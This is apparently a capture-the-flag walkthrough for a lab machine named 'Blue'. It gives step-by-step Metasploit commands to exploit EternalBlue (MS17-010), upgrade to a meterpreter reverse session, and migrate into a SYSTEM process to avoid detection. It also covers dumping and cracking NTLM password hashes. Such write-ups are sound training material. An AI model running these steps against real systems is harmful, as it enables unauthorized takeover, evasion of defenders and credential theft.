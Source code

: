 # Blue

Tasks:

1. Recon:
   1. Do nmap version scan along with vuln script to find vulnerability
      1. `nmap -sV --script vuln ip`
      2. Vulnerable to CVE-2017-0143 or ms17-010 found.\[Eternal Blue] from nmap results - Answer all questions based on this output.
2. Gain Access:
   1. Start metasploit console , search ms17-010, use exploit/windows/smb/ms17\_010\_eternalblue, set RHOSTS to victim ip and run.
   2. Background session by pressing ctrl+z
3. Escalate:
   1. Convert shell to meterpreter: use post/multi/manage/shell\_to\_meterpreter , SET LHOST to attacker ip and SESSION (backgrounded session id , use sessions -l to list sessions).
   2. Execute **run**  to get meterpreter session and run **sessions -i meterpreter\_**_**session\_id** to switch to meterpreter session. Run _**getsystem** to verify we got system access and are NT AUTHORITY\SYSTEM indeed.
   3. Use ps to list all process, migrate to any process running as system using **migrate pid, **we are injecting our meterpreter in running process to get stable and make our shell less detective.
4. Cracking:
   1. type hashdump in meterpreter session and obtain NTLM credential hash dump.
   2. Use [crackstation](https://crackstation.net), john or hashcat to get password of Jon.
5. Find flags!:
   1. run **search -f flag\*** in meterpreter session, you will find location of flags.
   2. Do cat location\__of\__flag for all 3 flag locations and submit the flags !!!
